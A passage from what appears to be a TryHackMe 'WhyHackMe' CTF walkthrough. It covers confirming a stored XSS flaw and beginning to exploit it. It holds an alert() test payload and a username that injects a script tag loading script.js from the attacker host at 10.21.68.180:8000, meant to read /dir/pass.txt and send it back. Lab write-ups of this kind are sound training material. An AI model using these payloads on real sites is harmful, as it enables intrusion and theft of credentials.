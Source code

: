 Once we post a comment as the `<script>alert("XSS test")</script>` user, the payload is executed.
![](/assets/img/posts/walthrough/tryhackme/2024-10-26-whyhackme/xss-success.png)

## Exploitation

This validates the existence of a stored XSS vulnerability on the target web application. Since we know that the admin verifies our comments and that the admin accesses the website internally we can write a javascript file that will read the file `/dir/pass.txt` and send its content back to us. We can't steal the admin's cookie because the web application uses the HTTP Only flag.
```bash
┌──(pentester㉿kali)-[~/…/Challenge/WhyHackMe/Scans/Service]
└─$ curl -I http://10.10.16.114         
HTTP/1.1 200 OK
Date: Fri, 25 Oct 2024 16:26:58 GMT
Server: Apache/2.4.41 (Ubuntu)
Set-Cookie: PHPSESSID=uut3vlui15djl6hd70l8p8b9qk; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
```

To read the password file let's first create a last  user with the username `<script src="http://10.21.68.180:8000/script.js"></script>`. This will import the `script.js` file from our attack host and execute it. 
![](/assets/img/posts/walthrough/tryhackme/2024-10-26-whyhackme/third-user.png)